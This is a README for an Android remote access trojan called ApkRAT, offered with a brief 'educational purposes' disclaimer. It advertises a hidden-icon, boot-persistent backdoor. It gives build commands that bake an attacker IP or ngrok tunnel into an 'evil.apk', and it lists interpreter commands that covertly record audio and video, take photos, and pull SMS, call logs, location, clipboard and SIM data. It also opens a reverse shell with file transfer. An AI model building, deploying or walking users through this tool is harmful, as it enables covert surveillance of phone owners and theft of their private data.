 **Disclaimer** : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# ApkRAT 

Twitter Follow(https://twitter.com/Enpazturk)
GitHub followers(https://github.com/MrDeepWolf/)

ApkRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. apkrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### ApkRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> apkRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Screenshots

![ApkRAT]("ApkRAT in action")
## Features of ApkRAT 
* Full persistent backdoor
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
ApkRAT requires Python3 and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/MrDeepWolf/apkrat.git
cd ApkRAT
pip install -r requirements.txt
```
#### Note: 
While cloning the repository using Git bash on Windows, you may get the following error:
> error: unable to create file \<filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename. 

You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 apkrat.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "deepwolf.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 apkrat.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 apkrat.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 apkrat.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 apkrat.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 apkrat.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
------------------------------------------------------------------------------------------------------------------------------


## License
Apkrat is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


